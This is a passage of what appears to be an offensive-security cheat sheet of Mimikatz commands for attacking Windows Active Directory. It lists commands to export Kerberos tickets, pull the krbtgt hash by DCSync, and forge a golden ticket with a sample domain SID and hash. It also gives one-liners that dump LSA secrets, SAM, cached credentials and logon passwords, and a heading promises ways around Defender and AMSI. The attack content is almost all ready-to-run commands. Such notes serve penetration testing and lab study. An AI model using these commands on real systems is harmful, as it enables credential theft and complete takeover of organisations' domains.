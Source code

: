 - *dump krbtgt ntlm hash*

#### kerberos

---

```powershell
# show tickets of users
sekurlsa::tickets

#export tickets
kerberos::list /export

#list kerberos credentials for all authenticated users
SEKURLSA::Kerberos

#get NT HASH of krbtgt acc
lsadump::dcsync /user:corp.com\krbtgt 

#forge golden ticket using krbtgt hash
kerberos::golden /user:hacker
/domain:corp.com /sid:S-1-5-21-2806153819-209893948-922872689
/krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-
5-21-3842939050-3880317879-2865463114-519 /ptt

```

- *forge kerberos TGTs. golden ticket*

<br>

#### non interactive usage

---

```bash
.\mimikatz.exe "privilege::debug" "log hash.txt" "lsadump::lsa /patch" "exit"

.\mimikatz.exe  "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"
.\mimikatz.exe  "privilege::debug" "lsadump::sam /patch" "exit"
.\mimikatz.exe "privilege::debug" "lsadump::cache /patch" "exit"
```

- *use if you do not have a interactive shell*

## **SAM and AD Dumping**

<br>

#### Lolbins to potentially bypass Defender & AMSI

---

Procdump.exe, Privileges required User:
